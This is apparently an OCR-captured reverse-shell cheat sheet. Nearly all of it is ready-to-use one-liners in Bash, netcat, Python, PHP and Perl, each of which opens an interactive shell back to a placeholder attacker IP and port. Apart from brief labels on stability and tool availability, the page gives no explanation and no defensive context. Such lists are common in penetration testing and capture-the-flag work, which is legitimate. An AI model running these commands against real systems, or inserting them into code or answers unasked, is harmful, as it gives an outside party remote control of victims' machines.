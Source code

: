#### Bash

##### TCP Dev (Common)
```bash
bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
```

##### Exec
```bash
exec 5<>/dev/tcp/<ATTACKER_IP>/<PORT>
cat <&5 | while read line; do $line 2>&5 >&5; done
```

##### Simpler (less stable)
```bash
/bin/bash -i > /dev/tcp/<ATTACKER_IP>/<PORT> 0<&1 2>&1
```

#### Netcat

##### Traditional Netcat (often not present or limited)
```bash
nc <ATTACKER_IP> <PORT> -e /bin/sh
```
* `-e`: Execute program after connect (often disabled in compiled versions)

##### OpenBSD Netcat (more common on modern systems)
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <PORT> >/tmp/f
```

#### Python

##### Python 2
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

##### Python 3
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"]);'
```

#### PHP

```php
php -r '$sock=fsockopen("<ATTACKER_IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Perl

```perl
perl -MIO -e '$i="<ATTACKER_IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
